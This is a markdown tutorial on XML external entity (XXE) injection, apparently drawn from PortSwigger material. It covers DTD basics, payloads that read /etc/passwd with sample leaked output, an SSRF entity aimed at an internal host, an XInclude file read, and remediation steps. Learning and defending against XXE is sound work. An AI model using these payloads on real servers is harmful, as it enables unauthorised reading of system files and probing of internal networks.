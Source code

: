 # XXE (XML external entity)❌Injection

XXE injection allows an attacker to interfere with processing XML data of application.

Attacker can view internal file's of applicatgion server and interact with back end systems.

- ***XML (Extensible markup language):*** designed for storing and transporting data. XML uses a tree structure of tags and data.
- ***XML Entities*** is a way of representing an item of data within an XML document, instead of using the data itself. Various entities are built in to the specification of the XML language. For example, the entities &lt; and &gt; represent the characters < and >.
- ***DTD (Document type definition):*** define the structure of an XML document, it can contain types of data values and other items. 

  DTD is declared within the optional DOCTYPE element at the start of the XML document. 

  DTD can be fully self-contained within the document itself (known as an "internal DTD") or can be loaded from elsewhere (known as an "external DTD") or can be hybrid of the two. 
- ***What is XML external entities:*** a type of custom entity whose definition is located outside of the DTD.
  
  Declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` from which the value of the entity should be loaded
  
  ` <!DOCTYPE foo [ <!ENTITY ext SYSTEM "http://normal-website.com" > ]>` or `<!DOCTYPE foo [ <!ENTITY ext SYSTEM "file:///path/to/file" > ]>`

## How XXE vulnerability occur?

When aplications use the XML format to transmit data between the browser to server. they always using standard library or platform API to process XML data on the server.

XML specification contains various potentially dangerous features, and standard parsers support these features even if they are not normally used by the application.

Like XXE are a type of custom XML entity whose defined values are loaded from outside of the DTD in which they are declared. also external entities are allow an entity to be defined based on the contents of a file path or URL. 

## Types of XXE

- Internal DTD
- External DTD


## 🧙 How to find and test XXE
### 1. Exploiting XXE to retrieve files

 To perform an XXE injection attack that retrieves an arbitrary file from the server's filesystem, you need to modify the submitted XML in two ways:

   1. Edit a DOCTYPE element that defines an external entity containing the path to the file.
   2. Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

Example: Application checks for the stock level of a product by submitting the following XML to the server
```
<?xml version="1.0" encoding="UTF-8"?>
<stocCheck><productId>381</productId></stockCheck>
```

Here. no defenses against XXE attacks, so you can exploit XXE to retrieve the `/etc/passwd` file by submitting following XXE payload: 
```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<stockCheck><productId>&xxe;</productId></stockCheck>
```
This XXE payload defines an external entity &xxe; whose value is the contents of the /etc/passwd file and uses the entity within the productId value. This causes the application's response to include the contents of the file.
```
Invalid product ID: root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
```
### 2. Exploiting XXE to perform SSRF attacks

SSRF is a potentially serious vulnerability in which the server-side application can be induced to make HTTP requests to any URL that the server can access.

Example: Perform SSRF attack, you need to define an external XML entity using the URL that you want to target, and use the defined entity within a data value
```
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://internal.vulnerable-website.com/"> ]>
```
### 3. [Blind XXE vulnerabilities](https://portswigger.net/web-security/xxe/blind#exploiting-blind-xxe-to-exfiltrate-data-out-of-band)

### 4. Finding hidden attack surface for XXE injection
  1. XInclude attacks

Perform an XInclude attack, you need to reference the `XInclude` namespace and provide the path to the file that you wish to include. 

Example:
```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo> 
```
  2. [XXE attacks via file upload](https://portswigger.net/web-security/xxe)
  3. [XXE attacks via modified content type](https://portswigger.net/web-security/xxe#exploiting-xxe-to-perform-ssrf-attacks)


## 🛠️ Remediation of XXE

- XML parsing library supports potentially dangerous XML features that the application does not need or intend to use. The safest way to prevent XXE is always to disable DTDs (External Entities) completely. 
-  Configure XML parser to disable external entity resolution.
-  Disable support for XInclude

## 🔗 Refrence

- https://portswigger.net/web-security/xxe
- https://cheatsheetseries.owasp.org/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html
